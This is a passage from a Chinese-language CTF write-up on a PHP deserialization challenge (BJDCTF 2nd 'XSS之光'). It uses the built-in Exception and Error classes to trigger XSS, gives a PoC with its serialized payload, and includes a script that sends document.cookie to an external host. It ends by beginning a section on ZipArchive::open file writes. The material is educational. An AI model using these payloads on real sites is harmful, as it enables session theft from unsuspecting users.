 

#### 例子：BJDCTF 2rd XSS之光

Git泄露，用GitHack dump下来：

只有一个`index.php`文件：

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

> yds？？？杨大树？？？

Error类就是php的一个内置类用于自动自定义一个`Error`，在php7的环境下可能会造成一个`xss`漏洞，因为它内置有一个`toString`的方法。

> Exception类跟Error类原理一样，但是也适用于PHP5

我们先来验证一下：

POC

```php
<?php
$a = new Exception("<script>alert(1)</script>");
echo urlencode(serialize($a));
```

得到编码后的反序列化结果：

```
O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

成功触发XSS。

也可以直接打cookie：

```php
<?php
$s = '<script>var img=document.createElement("img");img.src="http://f7ffa642-8f7f-4879-bc49-e75d26e7c2bc.node3.buuoj.cn/a?"+escape(document.cookie);</script>';
echo serialize($s);
```





### 原生类同名函数：ZipArchive::open 文件写

首先先认识原生类同名函数的攻击漏洞，先假设我们有一个上传类如下

```php
<?php
class Upload{
    function upload($filename, $content){
        //这是一个你不能修改的文件, prprprpr
    }
    function open($filename, $content){
        //你还是不能修改, lololololol
    }
}
```
